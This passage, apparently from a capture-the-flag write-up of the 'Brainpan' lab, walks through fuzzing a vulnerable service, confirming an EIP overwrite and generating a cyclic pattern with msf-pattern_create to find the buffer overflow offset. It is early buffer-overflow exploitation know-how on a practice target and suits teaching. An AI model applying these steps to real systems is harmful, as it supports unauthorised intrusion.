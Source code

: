 ```highlight
       print("Fuzzing crashed at %s bytes" % str(len(buffer)))
       sys.exit()
```

The script will send 100 A's to the application and will keep increasing the sent characters by 100 on each attempt. If the application crashes the script will fail and print out the length of A's sent at the time of the crash. 

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $sudo python exploit.py
Fuzzing crashed at 700 bytes
```

Running the script I can see it crashed at 700 bytes. Looking in Immunity debugger I can see the status is now showing 'Paused' rather than running indicating a crash.

![crash](/assets/images/brainpan/crash.png)

EIP is showing 41414141 which is AAAA so we have successfully overwrote EIP. If I can control EIP I may be able to exploit the application to create a reverse shell.

#### Find Offset

The next step is to find the offset of the crash, I have successfully overwrote EIP but I need to determine the offset so I can accurately control the value inputted in to EIP. To find the offset I used the msf pattern create. This will create a cyclic pattern string of characters that I can put in to my script.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Brainpan]
└──╼ $msf-pattern_create -l 700
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4A
f5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al
0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5
Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0A
w1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A
```

